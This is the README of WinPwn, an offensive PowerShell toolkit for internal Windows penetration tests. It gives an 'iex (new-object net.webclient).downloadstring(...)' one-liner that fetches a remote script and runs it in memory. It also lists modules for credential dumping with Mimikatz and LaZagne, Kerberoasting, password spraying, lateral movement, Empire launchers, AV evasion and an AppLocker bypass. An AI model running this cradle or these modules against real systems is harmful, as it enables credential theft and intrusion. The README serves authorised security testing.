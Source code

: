 # WinPwn
Still much work to do - Automation for internal Windows Penetrationtest. Different local recon modules, domain recon modules, pivilege escalation and exploitation modules. Any suggestions, feedback and comments are welcome!

Just Import the Modules with "Import-Module .\WinPwn_v0.6.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.6.ps1')

Functions available after Import:
1) #### `isadmin` -> Checks for local admin access
2) #### `Inveigh` -> Executes Inveigh in a new Console window (https://github.com/Kevin-Robertson/Inveigh)
3) #### `sessionGopher` -> Executes Sessiongopher in memory (https://github.com/Arvanaghi/SessionGopher)
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz after with admin rights (https://github.com/PowerShellMafia/PowerSploit)
5) #### `localreconmodules` -> Executes different Get-Computerdetails and Just another Windows Privilege escalation script + Winspect (https://github.com/PowerShellMafia/PowerSploit, https://github.com/A-mIn3/WINspect, https://github.com/411Hall/JAWS)
6) #### `JAWS` -> Just another Windows Privilege Escalation script gets executed
7) #### `domainreconmodules` -> Different Powerview situal awareness functions get executed and the output stored on disk. In Addition a Userlist for DomainpasswordSpray gets stored on disk. An AD-Report is generated as CSV Files (or XLS if excel is installed) with ADRecon. (https://github.com/sense-of-security/ADRecon, https://github.com/PowerShellMafia/PowerSploit, https://github.com/dafthack/DomainPasswordSpray)
8) #### `Privescmodules` -> Executes different privesc scripts in memory (Sherlock https://github.com/rasta-mouse/Sherlock, PowerUp, GPP-Files, WCMDump)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) (https://github.com/AlessandroZ/LaZagne)
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. Domainpassword-Spray for new Credentials can also be done here.
11) #### `empirelauncher` -> Launch powershell empire oneliner for remote Systems (https://github.com/EmpireProject/Empire)
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder from Powerview (Powersploit)
13) #### `groupsearch` -> FindGPOLocation (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)


## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
